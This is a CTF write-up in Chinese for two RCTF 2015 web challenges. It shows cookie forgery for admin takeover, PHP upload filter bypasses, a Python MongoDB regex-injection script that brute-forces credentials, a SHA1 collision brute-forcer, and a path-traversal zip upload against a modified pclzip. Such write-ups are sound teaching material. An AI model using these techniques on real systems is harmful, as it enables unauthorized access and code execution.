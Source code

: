 # RCTF 2015

## weeeeeb3	WEB	150

先注册个账户，登陆进去发现cookie里面有个字段，发现其实是md5("$uid:$username")     
尝试把它改掉，发现自己个人信息页进不去了，结合forget password页来看，估计就是用忘记密码找回admin账号，    
把那个字段改成md5("1:admin")，个人信息页的url中把uid=1，就可以看见admin是1993/01/01的福建省福州市闽侯县人，
然后找回密码就可以了（然而好像有人搅屎，改了好几次才登录进去）    
进入admin后台，发现原代码里是要module=filemanage&do=???，猜测是do=upload    
发现页面给了个上传文件的表单（吐槽一下这次怎么全是要上传文件- -），表现如下：    
- 上传.php后缀：返回is a php!
- 上传非.php后缀，content-type改成image/jpg: you know what i want
- 上传.php5后缀，content-type改成image/jpg:: not a really php file
- 文件里含有<?php : something shows that is a php file!
最后翻官网http://php.net/manual/en/language.basic-syntax.phptags.php，上传<script language="php">成功拿到flag.

## login WEB 300

### Mongo注入

```python
import requests, string

headers = {
	'Cookie': 'user=czo1OiJndWVzdCI7',
	'X-Requested-With': 'XMLHttpRequest'
}

def probe(name, pwd):
	data = {
		'username[$regex]': '/^' + ''.join(['\\x%02x' % ord(x) for x in name]) + '.*$/',
		'password[$regex]': '/^' + ''.join(['\\x%02x' % ord(x) for x in pwd]) + '.*$/',
	}
	r = requests.post('http://180.76.178.54:8005/53a0fb1b692f02436c3b5dda1db9c361/checkLogin.php', headers=headers, data=data)
	if 'I think you can get them' in r.content:
		return True
	assert 'username or password error' in r.content
	return False

cur_user = 'ROIS_ADMIN'
cur_pass = 'pas5woRd_i5_45e2884c4e5b9df49c747e1d'

while True:
	print 'Cur:', cur_user
	for c in string.printable:
		if probe(cur_user + c, ''):
			cur_user += c
			break
	else:
		break

while True:
	print 'Cur:', cur_pass
	for c in string.printable:
		if probe(cur_user, cur_pass + c):
			cur_pass += c
			break
	else:
		break

print 'User:', cur_user
print 'Pass:', cur_pass
```

成功得到用户名，密码
```
cur_user = 'ROIS_ADMIN'
cur_pass = 'pas5woRd_i5_45e2884c4e5b9df49c747e1d'
```

### 登录后台

服务器关了有点蛋疼，记不太清后台页面说了一大堆什么
看到界面里有个上传zip的地方，大概还有就是根据页面给的提示，
给了个pclzip 2.8.2模块的代码（后来发现修改过），
还有html页面源代码里藏了一部分php代码，发现要碰撞一个PBKDF2才能上传文件
也就是上传文件是user-agent必须以rois_special_user_agent开头，长为65，
$_COOKIE['backdoor']要跟ua的hash一样，那么要构造碰撞

### PBKDF2+HMAC hash collisions

直接把下面网址的代码copy下来改改就好了
https://mathiasbynens.be/notes/pbkdf2-hmac

```python
#!/usr/bin/env python
# coding=utf-8

import hashlib
import itertools
import re
import string
import sys

TOTAL_LENGTH = 65
PREFIX = 'rois_special_user_agent'

prefix_length = len(PREFIX)
brute_force_length = TOTAL_LENGTH - prefix_length
passwords = itertools.product(string.ascii_lowercase, repeat=brute_force_length)
regex_printable = re.compile('[\x20-\x7E]+$')
base_hasher = hashlib.sha1()
base_hasher.update(PREFIX)

for item in itertools.imap(''.join, passwords):
  hasher = base_hasher.copy()
  hasher.update(item)
  sha1_hash = hasher.digest()
  if regex_printable.match(sha1_hash):
    print u'%s \U0001F4A5 %s'.encode('utf-8') % (PREFIX + item, sha1_hash)
```

跑出来的结果
![WEB300_HASH_COLL](web300_hash.png)

所以：
`User-Agent:rois_special_user_agentaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaamipvkd`
`backdoor=3-Rfm^Bq%3bZZAcl]mS&eE`

### 构造特殊zip

一开始不知道要干嘛，上传什么zip,后来发现上传路径里面是/upload/image/*    
后来搜到这篇帖子:
http://www.sa666.com/thread-39060-1-1.html

参考那篇帖子，构造一个压缩包，内含有
1.php
../1.php
../../1.php
../../../1.php
然后把某个文件在zip中的部分破坏一下，全改成a，让解压到一半的时候异常退出，防止解压出的文件被删掉
![WEB300_BAD_ZIP](web300_bad_zip.png)

### 本地测试
把那个.php.bak下载下来，改名叫pclzip.php，本地用下面的代码跑跑解压构造好的zip看看，
```php
<?php
require('pclzip.php');
$pclzip = new PclZip('w.zip');
var_dump($pclzip->extract());
var_dump($pclzip->errorInfo(true));
```

发现解压出来的文件被改了名字，是一个md5，搜了下pclzip.php，发现4415行中
```php
    // ----- Get filename
    if ($p_header['filename_len'] != 0)  {
      $p_header['filename'] = fread($this->zip_fd, $p_header['filename_len']);
      $preNum = substr_count($p_header['filename'], '../');
      $prefix = str_repeat('../', $preNum);
      $element = explode('.', str_replace($prefix, '', $p_header['filename']));
      $fname = $prefix . md5($element[0]. 'RoisFighting'). '.' .end($element);
      $p_header['filename'] = $fname;
    }
```
可见解压出的文件名字是md5(原文件名 . 'RoisFighting').

把压缩包上传上去，返回fail，说明成功了
![WEB300_payload](web300_payload.png)

访问新文件名对应的url就可以拿到flag了。
